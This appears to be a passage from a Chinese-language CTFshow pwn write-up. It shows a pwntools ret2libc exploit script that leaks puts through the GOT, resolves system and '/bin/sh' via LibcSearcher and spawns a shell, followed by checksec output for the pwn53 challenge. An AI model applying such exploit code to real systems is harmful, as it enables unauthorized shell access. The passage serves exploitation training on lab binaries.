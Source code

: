 ```python
payload1 = b'a' * (offset + 4) + p32(puts_plt) + p32(main_add) + p32(puts_got)
io.sendlineafter(b'What do you want?', payload1)
puts_addr = u32(io.recvuntil(b'\xf7')[-4:])
print("Puts_addr: ", hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset + 4) + p32(system_add) + p32(0) + p32(bin_sh_add)
io.sendlineafter(b'What do you want?', payload2)

io.interactive()
```

## pwn53

checksec

```c
[*] 'C:\\Users\\26597\\Desktop\\pwn53'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

32位小端序

本地运行以下先看看

```c
ctfshow@ubuntu:~/Desktop/xd$ ./pwn53
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  
    * *************************************                           
    * Classify: CTFshow --- PWN --- 入门                              
    * Type  : Stack_Overflow                                          
    * Site  : https://ctf.show/                                       
    * Hint  : Do you know how Canary works?                           
    * *************************************                           
/canary.txt: No such file or directory.
```
